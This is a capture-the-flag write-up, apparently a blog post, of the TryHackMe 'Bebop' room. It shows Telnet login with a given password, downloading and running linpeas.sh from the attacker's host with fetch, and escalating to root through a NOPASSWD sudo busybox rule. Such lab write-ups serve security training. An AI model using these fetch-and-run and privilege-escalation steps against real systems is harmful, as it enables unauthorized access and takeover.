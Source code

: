 ```yaml
---
layout: post
title:  "THM: Bebop"
date:   2021-01-29 16:00:00 +1100
category: hacking
---
```


## Bebop
*Who thought making a flying shell was a good idea?*

This is [Bebop](https://tryhackme.com/room/bebop) from THM. It's easy rated and is supposed to be about taking over a drone or something.


## Ports
SSH and Telnet on port 23.

## Telnet
We were given a password: *pilot*. Let's try it?

{% highlight shell %}
root@kali:/opt/tryhackme/bebop# telnet 10.10.14.43 23
Trying 10.10.14.43...
Connected to 10.10.14.43.
Escape character is '^]'.
login: admin
Password for admin@freebsd:
login: pilot
Last login: Sat Oct  5 23:48:53 from cpc147224-roth10-2-0-cust456.17-1.cable.virginm.net
FreeBSD 11.2-STABLE (GENERIC) #0 r345837: Thu Apr  4 02:07:22 UTC 2019
{% endhighlight %}

Pretty easy. And in fact we can read both flags as *pilot*! Surely it's not that easy?

Yes, it is.

But let's get root. No *wget* or *curl*; the FreeBSD equivalent is *fetch*:

{% highlight shell %}
[pilot@freebsd /tmp]$ fetch http://10.9.10.123:8000/linpeas.sh
linpeas.sh                                             310 kB  164 kBps    02s
[pilot@freebsd /tmp]$ chmod +x linpeas.sh 
[pilot@freebsd /tmp]$ ./linpeas.sh 
 Starting linpeas. Caching Writable Folders...
{% endhighlight %}

Probably should've found this myself, but anyway:

{% highlight shell %}
[pilot@freebsd /tmp]$ sudo -l
User pilot may run the following commands on freebsd:
    (root) NOPASSWD: /usr/local/bin/busybox
[pilot@freebsd /tmp]$ sudo -u root /usr/local/bin/busybox sh
# id;hostname
uid=0(root) gid=0(wheel) groups=0(wheel),5(operator)
freebsd
{% endhighlight %}

Easy feels like an understatement.
